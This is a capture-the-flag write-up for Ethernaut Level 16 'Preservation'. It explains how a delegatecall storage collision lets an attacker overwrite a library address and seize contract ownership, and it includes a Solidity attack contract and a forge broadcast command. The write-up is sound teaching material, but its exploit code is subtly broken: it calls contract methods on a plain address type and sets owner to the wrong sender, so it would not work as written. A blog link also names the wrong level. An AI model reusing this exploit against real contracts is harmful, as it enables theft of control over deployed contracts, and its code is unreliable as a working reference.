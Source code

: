 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/16-preservation.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 16 - Preservation</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 16 - Telephone](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-16-preservation)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/16-preservation-requirements.webp" width="800px"/>

## The hack

Here, we have to become the new contract owner. Make sure you completed the level [6 - Delegation](../solutions/06_Delegation.md) before this one so you understand how `delegatecall` works.

After a quick first look, we can see that no function allows us to override the owner variable directly.
However, we know that a `delegatecall` executes the code of the called contract (`LibraryContract`), but with the storage of the calling contract (`Preservation`).
And since their storage doesn't match, we will be able to override some data and take ownership eventually. But, how?

Let's say we call the `setFirstTime` function with a uint, it will call the `setTime` function of the `LibraryContract` with the same uint via the `delegatecall`. The `setTime` function will set the `storedTime` variable to the uint at storage slot 0. But since the `delegatecall` is using the `Preservation` contract storage, it will override the `timeZone1Library` variable instead.

| Storage slot | Preservation     | LibraryContract | Malicious Contract |
| ------------ | ---------------- | --------------- | ------------------ |
| 0            | timeZone1Library | storedTime      | timeZone1Library   |
| 1            | timeZone2Library |                 | timeZone2Library   |
| 2            | owner            |                 | owner              |
| 3            | storedTime       |                 | storedTime         |

Storage collision happening at slot 0. A simple unit test would have easily revealed this!

Since we can override the `timeZone1Library` variable, we could override it with a malicious contract address containing our own version of the `setTime` function. So we can call the `setFirstTime` once with our malicious contract address to override the library address, then once more to delegate the call to our malicious contract and override the `owner` variable to our address.

## Solution

Here is our malicious contract with a custom `setTime` function, and... a storage identical to the `Preservation` contract to avoid any collision.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Disappearance {
    address public timeZone1Library;
    address public preservation;
    address public owner;

    constructor(address _preservation) {
        preservation = _preservation;
    }

    function attack() public {
        preservation.setFirstTime(uint256(uint160(address(this))));
        preservation.setFirstTime(uint256(uint160(msg.sender)));
        require(preservation.owner() == msg.sender, "Hack failed!");
    }

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

Then run the script with the following command:

```bash
forge script script/16_Preservation.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Libraries should be stateless & use the `library` keyword.
- Avoid using `delegatecall` with user inputs. Or simply avoid using `delegatecall` at all.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
